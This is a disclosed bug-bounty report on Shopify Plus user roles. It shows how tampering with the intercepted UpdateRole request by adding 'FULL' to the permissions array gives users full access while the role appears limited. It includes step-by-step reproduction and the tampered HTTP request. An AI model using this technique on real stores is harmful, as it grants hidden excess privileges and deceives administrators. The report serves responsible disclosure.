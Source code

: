 # [h1-2102] Break permissions waterfall

## Report Details
- **Report ID**: 1088159
- **URL**: https://hackerone.com/reports/1088159
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-01-26T22:03:05.194Z
- **Disclosed**: 2022-02-12T20:48:26.037Z

## Reporter
- **Username**: hogarth45
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
## Summary:
Shopify Plus User permission roles will propagate changes to all the users in the role
Its possible to break this 
If you pass FULL along with other Pemrissions into a user role edit
It will propagate to the users and give them full access while the role shows partial access

## Steps To Reproduce:

1. In Shopify Plus create a user role for a store and give it a handful of permissions
2. Apply the role to a user
3. Make a change to role and go back and you can see the change propagate to each of the users
This is true for adding permissions, taking away permissions, going Full access and back to Limited access

5. Go back to the role
6. Edit the permissions
7. Turn on HTTP proxy
8. Set Limited and select a few checkboxes
9. Save
10. Save
11. Catch the Saving request (keep in Repeater) and alter the permissions array to contain the string FULL

`"permissions":["DASHBOARD","ORDERS","GIFT_CARDS","FULL","REPORTS","OVERVIEWS"],`

12. Both Role and User account will reflect the FULL access
13. Alter the permissions array again with your Repeater request
Remove FULL for some garbage data

`"permissions":["DASHBOARD","ORDERS","GIFT_CARDS","cheese","REPORTS","OVERVIEWS"],`

14. The Role will show that all users have limited access, but users will retain FULL access

## Supporting Material/References:

```
POST /34937697/users/api HTTP/1.1
Host: shopify.plus
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
content-type: application/json
x-csrf-token: axogyrLP-YZ_UCyd_o8tdASj_uGTLc1wIT3c
x-plus-tracking: 28909bfe-8318-4a3a-bb66-d5a7643eca13, a2f06bd6-efaf-434c-a2be-13454e95417a, users
Origin: https://shopify.plus
Content-Length: 695
Connection: close
Cookie: ██████
X-h1-2102: hogarth45

{"operationName":"UpdateRole","variables":{"appHandles":[],"id":"Z2lkOi8vb3JnYW5pemF0aW9uL1JvbGUvNjc4Nw","name":"waterfall","shopAccess":[{"appPermissions":[],"permissions":["DASHBOARD","ORDERS","GIFT_CARDS","FULL","REPORTS","OVERVIEWS"],"shopId":"Z2lkOi8vb3JnYW5pemF0aW9uL1Nob3AvMzQ5NjYwMzM"}]},"query":"mutation UpdateRole($appHandles: [String!], $id: RoleID!, $name: String!, $shopAccess: [ShopAccessInput!]) {\n  updateRole(appHandles: $appHandles, id: $id, name: $name, shopAccess: $shopAccess) {\n    role {\n      id\n      name\n      __typename\n    }\n    userErrors {\n      message\n      field\n      __typename\n    }\n    message\n    operationStatus\n    __typename\n  }\n}\n"}
```

## Impact

users who should be limited by their role can have excessive permissions

## Attachments
No attachments
